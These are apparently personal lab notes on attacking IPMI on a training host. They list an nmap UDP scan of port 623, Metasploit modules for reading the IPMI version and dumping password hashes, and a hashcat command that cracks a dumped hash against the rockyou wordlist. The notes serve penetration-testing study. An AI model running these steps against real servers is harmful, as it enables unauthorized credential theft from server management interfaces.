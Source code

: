 [[metasploit]]
[[nmap]]
[[hashcat]]
```bash
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```


```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
```


```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
```

```shell
hashcat -m 7300 -w 3 -O "93c887ae8200000052f17511d0fd3b9a08350b045e118a2cd0c311777576080bc13a5581d522cdb5a123456789abcdefa123456789abcdef140561646d696e:3541221bac8d7e76f34e45697aed40edfbe87fd8" /usr/share/wordlists/rockyou.txt
```


